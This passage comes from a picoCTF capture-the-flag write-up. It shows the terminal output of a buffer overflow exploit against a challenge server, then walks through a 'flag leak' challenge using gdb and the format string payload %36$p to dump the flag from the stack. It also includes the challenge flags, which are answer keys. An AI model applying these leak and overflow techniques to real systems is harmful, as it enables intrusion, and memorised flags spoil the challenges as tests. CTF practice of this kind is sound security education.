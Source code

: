 ```python
print(p.recvline())
```

Terminal output:

```bash
└─$ python3 buffer_overflow_3.py
[+] Opening connection to saturn.picoctf.net on port 55533: Done
b'How Many Bytes will You Write Into the Buffer?\n'
b'> '
b'Input> '
b"Ok... Now Where's the Flag?\n"
b'picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}\n'
[*] Closed connection to saturn.picoctf.net port 55533
```

Flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}`

## **flag leak**

### ***Description***

<button name="button" onclick="http://www.google.com">Launch Instance</button> <br>
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/122/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/122/vuln.c). And connect with it using:`nc saturn.picoctf.net 53934`

<details><summary>Hint 1</summary></details>

### ***Writeup***

Running `checksec vuln` does not show that it has canaries, which probably means that the canary in the program is not a real stack canary w

```
(gdb) p readflag
$1 = {<text variable, no debug info>} 0x80492b6 <readflag>
```

break at vuln+82

![image-20220508054807829](C:\Users\jason\AppData\Roaming\Typora\typora-user-images\image-20220508054807829.png)

Format string: %36$p

7069636f
4354467b
4c33346b
316e675f
466c3467
5f306666
5f537434
636b5f30
35353130
3832637d

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_0551082c}`
